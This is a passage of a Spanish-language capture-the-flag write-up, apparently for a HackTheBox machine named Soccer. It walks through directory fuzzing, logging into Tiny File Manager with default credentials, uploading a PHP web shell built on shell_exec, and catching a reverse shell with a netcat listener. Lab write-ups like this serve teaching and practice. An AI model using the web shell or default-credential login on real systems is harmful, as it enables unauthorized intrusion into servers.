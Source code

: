 Si fuzzeamos por direcotorios, encontramos un **/tiny**

```
❯ dirsearch -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
  Target: http://soccer.htb/

[22:07:31] Starting: 
[22:08:03] 301 -  178B  - /tiny  ->  http://soccer.htb/tiny/
```
## Intrusión

Vemos un panel de login. Si buscamos en internet por las credenciales que vienen por default en **Tiny File Manager** vemos "admin:admin@123" y obtenemos acceso a la web

![Web]({{ 'assets/img/commons/Soccer/web.png' | relative_url }}){: .center-image }
_Vista principal de la web_

Vemos que tenemos un direcotrio **tiny**, dentro hay otro que es **uploads** y ya dentro podemos hacer click a la derecha arriba para que nos deje subir un archivo

`Nota:` Si no lo hacemos en este orden, no nos dejará subir ningún archivo

![Php]({{ 'assets/img/commons/Soccer/php.png' | relative_url }}){: .center-image }
_Uploads_

Vemos que con una extensión que tengo en el navegador (wappalyzer) la página emplea **php**, por lo cual trataremos de subir un archivo con script php para ejecutar comandos de manera remota

```php
<?php

  echo "<pre>" . shell_exec($_GET['shell']) . "</pre>";
  
?>
```

Lo que hace el anterior script es que mediante etiquetas preformateadas y usando la función "shell_exec" y haciendo una petición por **GET** definimos un parámetro (en este caso "shell") para ejecutar comandos de manera remota gracias a la función empleada

![RCE]({{ 'assets/img/commons/Soccer/rce.png' | relative_url }}){: .center-image }
_RCE_

Una vez comprobamos que tenemos un RCE entablamos una reverse shell y nos ponemos por escucha con netcat

![Reverse_Shell]({{ 'assets/img/commons/Soccer/reverse_shell.png' | relative_url }}){: .center-image }
_Reverse_shell_

Y obtenemos una shell por el puerto en el cual nos pusimos en escucha

```
❯ nc -nlvp 443
listening on [any] 443 ...

www-data@soccer:~/html/tiny/uploads$  whoami
www-data
```
